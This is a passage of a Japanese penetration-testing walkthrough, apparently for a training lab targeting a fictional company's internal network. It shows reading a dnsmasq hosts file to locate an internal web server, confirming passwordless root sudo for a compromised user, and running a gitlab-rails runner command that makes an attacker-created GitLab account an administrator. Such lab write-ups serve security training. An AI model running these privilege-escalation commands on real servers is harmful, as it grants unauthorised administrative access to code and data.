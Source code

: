 

この方法でなくても、DNSサーバの設定ファイルを確認することでIPアドレスを直接確認できます。
IPアドレスは、マシンの起動やリセットごとにが変更されてしまうことに注意してください。

```
m.yamada@ip-10-0-128-6:~$ cat /etc/hosts-dnsmasq
10.0.128.11     www.mirai-itsystems.local
10.0.128.6    mirai-itsystems.local
```



### 6. GitLabサーバ上での設定変更

発見したWebサーバ `www.mirai-itsystems.local` への侵入経路を考えます。

GitLabサーバでアカウントを作成した際、そのアカウントの権限は管理者ではありませんでした。
先ほど作成したGitLabアカウントを管理者のユーザとして動かすことで、閲覧できる範囲が広がるかもしれません。

`sudo -l`コマンドを実行すると、侵入に用いた`m.yamada`ユーザがsudo権限も保有しているとわかります。

```
m.yamada@ip-10-0-128-6:~$ sudo -l
sudo: unable to resolve host ip-10-0-128-6: Name or service not known
Matching Defaults entries for m.yamada on ip-10-0-128-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User m.yamada may run the following commands on ip-10-0-128-6:
    (root) NOPASSWD: ALL
```

次のようなコマンドを実行することで、GitLabでのユーザ権限を変更することができます。 \
数分ほどで実行が完了し、GitLabの管理者権限を得られます。

```
sudo gitlab-rails runner "user = User.find_by_username('<作成したユーザ名>'); user.admin = true; user.save!"
```

```
m.yamada@ip-10-0-128-6:~$ sudo gitlab-rails runner "user = User.find_by_username('tester'); user.admin = true; user.save!"
sudo: unable to resolve host ip-10-0-128-6: Name or service not known
```



### 7. 管理者としてのGitLabサーバのWebアプリケーション探索

GitLabの管理者アカウントとしてMirai IT Systemsグループを確認すると、内部向けのリポジトリを発見できます。

![内部向けリポジトリを発見](./images/privaterepo.png)
